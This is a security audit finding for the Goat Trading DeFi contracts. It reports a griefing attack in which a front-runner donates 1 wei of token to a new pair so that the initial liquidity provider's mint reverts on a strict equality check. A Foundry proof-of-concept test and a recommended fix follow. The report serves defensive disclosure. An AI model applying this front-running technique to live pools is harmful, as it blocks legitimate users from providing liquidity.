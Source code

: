 Little Onyx Mongoose

high

# Malicious user can dos initial liquidity providers from minting liquidity

## Summary
Malicious user can dos initial liquidity providers from successfully minting liquidity.

## Vulnerability Detail
When the initial liquidity provider of a pool wants to add the initial liquidity. They can call `GoatV1Router::addLiquidity()`. This method calculates the amount of  tokens the initial liquidity provider needs to deposit and handles transferring the initial `token` and `weth` deposit into the `GoatV1Pair`. If a pool for the given `token` has not been created yet one will be created here 

After the token transfers the LP tokens are minted for the initial LP on the call to `pair.mint(to)`. There is a strict check that the amount of `token` in a pool matches exactly the configured amounts for the pool withe the check:

```solidity
if (balanceToken != (tokenAmtForPresale + tokenAmtForAmm)) {
  revert GoatErrors.InsufficientTokenAmount();
}
``` 

A malicious user can front-run calls `GoatV1Router::addLiquidity()` for any initial liquidity providers and transfer `1 wei` of the pools `token` directly to the pool. This will cause the following mint transaction for the initial liquidity provider to fail.

## Impact
A malicious user can easily prevent the initial liquidity provider from being able to deposit their liquidity.

## Code Snippet
https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L139-L141

## Tool used
Manual Review, Foundry

## Proof of Concept
```solidity
    function testFrontRunAddLiquidityWithoutWeth() public {
        // create configuration for pool
        addLiquidityParams(true, false);


        // fund attacker
        address attacker = makeAddr("attacker");
        token.transfer(attacker, 1 wei);

        // attacker front-run calls to for initial depositors to add liquidity to a pool
        // 1. Attack copies pool params and create the pool first if it doesn't exist
        address pair = factory.createPair(addLiqParams.token, addLiqParams.initParams);

        // 2. Attacker sends 1 wei of token to pair
        
        vm.startPrank(attacker);
        token.transfer(pair, 1 wei);
        vm.stopPrank();

        // 3. Initial LP attempts to deposit

        uint256 actualTokenAmountToSend = router.getActualBootstrapTokenAmount(
            addLiqParams.initParams.virtualEth,
            addLiqParams.initParams.bootstrapEth,
            addLiqParams.initParams.initialEth,
            addLiqParams.initParams.initialTokenMatch
        );

        token.approve(address(router), actualTokenAmountToSend);

        // Fails due to InsufficientInputAmount()
        vm.expectRevert();
        router.addLiquidity(
            addLiqParams.token,
            addLiqParams.tokenDesired,
            addLiqParams.wethDesired,
            addLiqParams.tokenMin,
            addLiqParams.wethMin,
            addLiqParams.to,
            addLiqParams.deadline,
            addLiqParams.initParams
        );
    }
```

## Recommendation
Update the token amount check in `GoatPairV1::mint()` to not be a strict equals:

```solidity
if (balanceToken < (tokenAmtForPresale + tokenAmtForAmm)) {
  revert GoatErrors.InsufficientTokenAmount();
}
```